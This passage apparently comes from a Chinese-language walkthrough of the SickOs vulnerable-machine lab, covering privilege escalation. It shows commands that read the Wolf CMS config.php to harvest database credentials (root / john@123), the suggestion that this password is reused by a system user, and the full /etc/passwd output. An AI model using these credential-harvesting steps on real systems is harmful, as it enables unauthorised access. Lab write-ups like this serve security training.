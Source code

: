     权限不高，系统名是`SickOs` 内核版本是`3.11.0-15`
    

## 提权

- 因为wolf是cms，肯定会存在与数据库连接的文件，找到`config.php` 文件
    
    ```php
    cat /var/www/wolfcms/config.php
    //
    <?php 
    
    // Database information:
    // for SQLite, use sqlite:/tmp/wolf.db (SQLite 3)
    // The path can only be absolute path or :memory:
    // For more info look at: www.php.net/pdo
    
    // Database settings:
    define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306');
    define('DB_USER', 'root');
    define('DB_PASS', 'john@123');
    define('TABLE_PREFIX', '');
    .....
    ```
    
    发现数据库用户名为`root`，密码为`john@123`
    
    改密码有可能也是系统上某个用户的密码
    
- 查看`/etc/passwd`  寻找可疑用户
    
    ```php
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/bin/sh
    bin:x:2:2:bin:/bin:/bin/sh
    sys:x:3:3:sys:/dev:/bin/sh
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/bin/sh
    man:x:6:12:man:/var/cache/man:/bin/sh
    lp:x:7:7:lp:/var/spool/lpd:/bin/sh
    mail:x:8:8:mail:/var/mail:/bin/sh
    news:x:9:9:news:/var/spool/news:/bin/sh
    uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
    proxy:x:13:13:proxy:/bin:/bin/sh
    www-data:x:33:33:www-data:/var/www:/bin/sh
    backup:x:34:34:backup:/var/backups:/bin/sh
    list:x:38:38:Mailing List Manager:/var/list:/bin/sh
    irc:x:39:39:ircd:/var/run/ircd:/bin/sh
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
    nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
    libuuid:x:100:101::/var/lib/libuuid:/bin/sh
    syslog:x:101:103::/home/syslog:/bin/false
    messagebus:x:102:105::/var/run/dbus:/bin/false
    whoopsie:x:103:106::/nonexistent:/bin/false
    landscape:x:104:109::/var/lib/landscape:/bin/false
    sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
    sickos:x:1000:1000:sickos,,,:/home/sickos:/bin/bash
    mysql:x:106:114:MySQL Server,,,:/nonexistent:/bin/false
    ```
    